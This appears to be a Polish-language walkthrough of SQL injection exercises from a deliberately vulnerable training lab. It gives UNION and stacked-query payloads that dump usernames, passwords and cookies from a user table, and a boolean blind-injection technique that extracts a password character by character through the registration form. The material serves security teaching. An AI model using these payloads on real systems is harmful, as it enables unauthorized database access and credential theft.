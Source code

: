 * Advanced:

    * Task 3:
    ```
    Name option 1: '; SELECT * FROM user_system_data;--
    Name option 2: ' UNION SELECT 1, user_name, password, cookie, 'a', 'a', 1 FROM user_system_data;--
    ```

    <br />

    * Task 5:

    W sekcji `Login`:
    ```
    Username: Tom
    Password: test
    ```
    Wynikiem jest `No results matched, try again.`, co znaczy, że strona login nie jest podatna na blind injection.

    <br />

    W sekcji `Register`
    ```
    Username: tom
    Email: test@test.com
    Password a
    Confirm password: a
    ```
    Wynikiem jest `User tom already exists please try to register with a different username.` - strona jest podatna na blind injection.
    
    <br />

    ```
    Username: tom' AND '1'='1
    Email: test@test.com
    Password a
    Confirm password: a
    ```
    Wynikiem jest `User {0} already exists please try to register with a different username.` - można sprawdzać hasło litera po literze.

    <br />

    ```
    Username: tom' AND SUBSTRING(password, 1, 1) = 'a
    Email: test@test.com
    Password a
    Confirm password: a
    ```
    Wynikiem jest `User tom' AND SUBSTRING(password, 1, 1) = 'a created, please proceed to the login page.` - pierwszą literą hasła nie jest a.

    <br />
